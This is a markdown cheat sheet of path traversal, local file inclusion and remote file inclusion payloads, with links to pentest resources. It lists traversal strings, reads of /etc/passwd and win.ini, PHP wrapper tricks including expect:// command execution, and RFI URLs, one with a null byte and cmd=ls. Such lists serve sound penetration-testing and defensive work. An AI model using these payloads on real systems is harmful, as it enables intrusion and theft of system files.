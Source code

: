 # Path Traversal List

## Directory Traversal Payloads

```
../../../../../../
..//..//..//..//..//
....//....//....//....//....//
```

## Local File Inclusion (LFI)

### Linux LFI Payloads

```
/etc/passwd
```

### Windows LFI Payloads

```
/windows/win.ini
```

### LFI Evasion Filters

```
php://filter/convert.base64-encode/resource=/path/to/file
php://input
data://text//plain;base64,<base64_encoded_payload>
expect://<os_command>
zip://file.jpg%23shell.php
```

## Remote File Inclusion (RFI)

### URL Payloads

```
https://cirt.net/rfiinc.txt
https://rfi.nessus.org/rfi.txt
```

### RFI Evasion

```
HTTps://cirt.net/rfiinc.txt
https://cirt.net/rfiinc.txt?
https://cirt.net/rfiinc.txt??
https://cirt.net/rfiinc.txt?%00&cmd=ls
```

---
## References

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

- [PayloadsAllTheThings: File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

- [SecLists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

- [PinoyWH1Z: SSH-Private-Key-Looting-Wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)

- [0xffsec Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)

- [Cobalt: A Pentester's Guide to File Inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

- [Malicious.link: Simple PHP webshell with php filter chains](https://room362.com/posts/2023/simple-php-webshell-with-php-filter-chains/)

- [Certcube: Cheatsheet – LFI & RCE & Webshells](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/)